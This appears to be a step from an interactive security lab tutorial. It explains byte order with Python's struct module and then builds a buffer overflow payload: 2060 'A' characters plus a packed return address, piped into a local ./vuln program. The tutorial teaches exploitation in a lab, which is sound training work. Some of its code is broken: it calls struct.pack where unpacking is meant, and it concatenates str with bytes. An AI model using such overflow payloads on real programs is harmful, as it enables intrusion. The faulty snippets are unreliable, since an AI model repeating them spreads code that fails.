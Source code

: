 # Endianess and struct python module

The [struct python module](https://docs.python.org/3/library/struct.html#format-characters) is a formidable library to convert python values into C-structs. One of the main usage for it, is to__ interpret bytes as packed binary data__:

## Little-Endian (LE) vs. Big-Endian (BE)

> In computing, endianness is the order or sequence of bytes of a word of digital data in computer memory. Endianness is primarily expressed as big-endian or little-endian. A big-endian system stores the most significant byte of a word at the smallest memory address and the least significant byte at the largest
> [Wikipedia](https://en.wikipedia.org/wiki/Endianness)

To illustrate, let's compare Arabic vs. English books: The first is written or read from right-to-left while the other is from left-to-right! Luckily, we don't have anything from top-to-bottom and the only alphabet we got are `0s` and `1s` ... what a relief!

Let's say that we want to write the number 134517454 (base10) in computer language. A computer only understand base2 (0s and 1s) but can easily represents bytes in base16 which will translates into 0x80492ce (base 16).

| Endiannes| representation | byte written at the highest memory address |
| --- | --- | --- |
| Little | \xce\x92\x04\x08 | least significant byte |
| Big | \x08\x04\x92\xce | most significant byte |

Most CPU chips, such as Intel (market leader) have adopted Little-Endian architecture.

## Using python struct module

Let's consider the memory address 0x2131415, How will you write it in Big-Endian? in Little-Endian?

You can use the struct module to verify your response:

type `python{{execute}} to open a python console

import the struct module: `import struct`{{execute}}

According to the [struct documentation](https://docs.python.org/3/library/struct.html#format-characters):
- `I` or `i` means 4 bytes long
- `<` means Little-Endian
- `>` means Big-Endian:

We can combine:
- `<I` represents a number in 4 bytes Little-Endian representation
- `>I` represents a number in 4 bytes Big-Endian representation

In your python console:
- Print the address in Big-Endian: `struct.pack('>I', 0x2131415)`{{execute}}
- Print the address in Little-Endian: `struct.pack('<I', 0x2131415)`{{execute}}

You can also do the opposite and obtain the decimal value from an address represented in Little ot Big-Endian:
- `struct.pack('<I', '\x15\x14\x13\x02')`{{execute}} for little endian to decimal memory address
- `struct.pack('>I', '\x02\x13\x14\x15')`{{execute}} for big endian to decimal memory address

Conversion from base10 to base16 is easy: `hex(34804757)`{{execute}}

Type `quit()`{{execute}} to exit the python console or press `<CTRL>D`

## Rewrite our previous exploit with the struct module

Let's consider the below code:

```python
import struct
offset 	= 2060
rip	= struct.pack('<I', 0x80492ee)
payload = 'A'*offset + rip
print(payload)
```{{copy}}

We can execute it in just one line of code: `python -c "import struct;offset=2060;rip=struct.pack('<I', 0x80492ee);payload = 'A'*offset + rip;print(payload)"`{{execute}}

Does the exploit work? Which of the below command we need to type to make it work?

`echo $(python -c "import struct;offset=2060;rip=struct.pack('<I', 0x80492ee);payload = 'A'*offset + rip;print(payload)") | ./vuln`{{execute}}

